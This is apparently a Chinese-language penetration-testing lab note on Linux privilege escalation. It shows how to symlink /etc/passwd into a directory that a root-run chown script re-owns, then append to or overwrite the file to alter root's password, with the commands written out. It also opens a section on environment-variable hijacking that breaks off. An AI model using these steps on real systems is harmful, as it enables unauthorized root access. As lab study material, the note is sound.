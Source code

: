 

## 软连接

举个例子：

当前我们是 apache 权限，发现一个以root身份执行了 `/usr/share/scripts/chown.sh`，当前只能读

```bash
bash-4.4$ ls -al
-rw-r--r--.  1 root root   45 May 29  2021 chown.sh
bash-4.4$ cat chown.sh
cat chown.sh
chown rocky:apache /home/rocky/public_html/*
```

这里的意思是把 `/home/rocky/public_html/`  底下所有的文件权限切换到 `rocky:apache`

假如我们可以把 /etc/passwd 软连接到 /home/rocky/public_html/ 目录下，/etc/passwd 就是用户 rocky 用户组 apache 权限了，我们便可以修改root密码或者把密码置空

```bash
bash-4.4$ ln -s /etc/passwd /home/rocky/public_html/passwd
ln -s /etc/passwd /home/rocky/public_html/passwd
```

软连接后的/etc/passwd权限

```bash
-rwxrwxr-x.  1 rocky apache   1548 Dec  2 05:47 passwd
```

最后修改 /etc/passwd 即可，可以通过追加 `echo xxx >> /etc/passwd`，也可以 cp 覆盖 `cp passwd /etc/passwd`

详情见：

```http
E:\渗透笔记\靶机\大福\Cereal.md
```



## 环境变量劫持

例子：

看到有个backup文件夹，过去看看

<img src=".\图片\700440-20200904145949019-714744502.png" alt="img"  />

 

看见文件procwatch且是二进制文件，而且每个用户都有执行权限，执行一下看看

<img src=".\图片\700440-20200904150114604-211097632223.png" alt="img" style="zoom:80%;" />
